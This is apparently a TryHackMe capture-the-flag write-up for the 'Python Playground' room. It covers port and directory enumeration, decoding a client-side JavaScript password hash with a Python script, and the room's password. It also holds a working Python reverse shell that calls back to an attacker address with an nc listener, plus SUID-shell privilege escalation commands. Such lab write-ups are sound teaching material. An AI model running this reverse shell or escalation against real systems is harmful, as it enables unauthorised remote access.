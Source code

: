 
# 🐍 Python Playground - TryHackMe

> Be creative!  
> 🔗 [Python Playground Room](https://tryhackme.com/room/pythonplayground)

---

## 🧠 Topics

- ✅ Network Enumeration (Nmap)
- ✅ Web Enumeration (Gobuster)
- ✅ JavaScript Login Bypass Logic 
- ✅ Python Scripting (Decoder)  
- ✅ Misconfigured Binaries

---
## 🎯 Task 1: Hack it!

> *Jump in and grab those flags! All in the usual places: `/home/someuser`, `/root`*

<details>
<summary>🔍 Nmap Results</summary>

```bash
sudo nmap -A -sS -sC -sV -O 10.10.192.182
```

```text
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-16 20:20 IST
Nmap scan report for 10.10.192.182
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f4:af:2f:f0:42:8a:b5:66:61:3e:73:d8:0d:2e:1c:7f (RSA)
|   256 36:f0:f3:aa:6b:e3:b9:21:c8:88:bd:8d:1c:aa:e2:cd (ECDSA)
|_  256 54:7e:3f:a9:17:da:63:f2:a2:ee:5c:60:7d:29:12:55 (ED25519)
80/tcp open  http    Node.js Express framework
|_http-title: Python Playground!
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   239.31 ms 10.21.0.1
2   239.53 ms 10.10.192.182

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.97 seconds
```

🔗 [http://10.10.192.182](http://10.10.192.182)  
🔗 [http://10.10.192.182/login.html](http://10.10.192.182/login.html)  
🔗 [http://10.10.192.182/signup.html](http://10.10.192.182/signup.html)

</details>

---

<details>
<summary>📁 Gobuster Enumeration</summary>

```bash
gobuster dir -u http://10.10.192.182 -w /usr/share/dirb/wordlists/common.txt -x html
```

**Results:**
```
┌──(zenrage-a1105㉿ZenRage-A1105)-[~/thm]
└─$ gobuster dir -u http://10.10.192.182 -w /usr/share/dirb/wordlists/common.txt -x html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.192.182
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin.html           (Status: 200) [Size: 3134]
/index.html           (Status: 200) [Size: 941]
/index.html           (Status: 200) [Size: 941]
/login.html           (Status: 200) [Size: 549]
/signup.html          (Status: 200) [Size: 549]
Progress: 9228 / 9230 (99.98%)
===============================================================
Finished
===============================================================
 ```

🔗 [http://10.10.192.182/admin.html](http://10.10.192.182/admin.html)  
🔗 [View Source](view-source:http://10.10.192.182/admin.html)

</details>

---

<details>
<summary>🔐 JavaScript Login Bypass Logic</summary>

```js
const hash = int_array_to_text(
  string_to_int_array(
    int_array_to_text(string_to_int_array(password))
  )
);

if (hash === "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu")
  window.location = "super-secret-admin-testing-panel.html";
```

🔗 [http://10.10.251.33/super-secret-admin-testing-panel.html](http://10.10.251.33/super-secret-admin-testing-panel.html)
</details>

---

<details>
<summary>🧮 Python Decoder Logic</summary>

```python
def text_to_unicode(string):
    uni=[]
    for char in string:
         a=ord(char)
         a -= 97
         uni.append(str(a))
    return uni

def unicode_to_text(string):
    out=""
    for char in range(0,len(string),2):
         a = int(string[char])
         b = int(string[char +1])
         temp = a * 26
         temp += b
         out += chr(temp)
    return out

if __name__ == "__main__":
     hash="dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"
     stri1 = text_to_unicode(hash)
     stri2 = unicode_to_text(stri1)
     stri3 = text_to_unicode(stri2)
     password = unicode_to_text(stri3)
     print(password)

```

✅ Password: `spaghetti1245`

</details>

---

<details>
<summary>💻 Reverse Shell</summary>

```python
import socket, os, subprocess

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.xx.xxx.xxx",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

```bash
# Listener
nc -lnvp 9001
```

</details>

---

<details>
<summary>📜 Flag Dump</summary>

### 🏁 Flag 1 (root):
```bash
cat /root/flag1.txt
```
`THM{flag1}`

---

### 🏁 Flag 2 (connor):
```bash
cat /home/connor/flag2.txt
```
`THM{flag2}`

---

### 🏁 Flag 3 (via SUID shell):
```bash
/var/log/sh -p
cd /root
cat flag3.txt
```
`THM{flag3}`

</details>
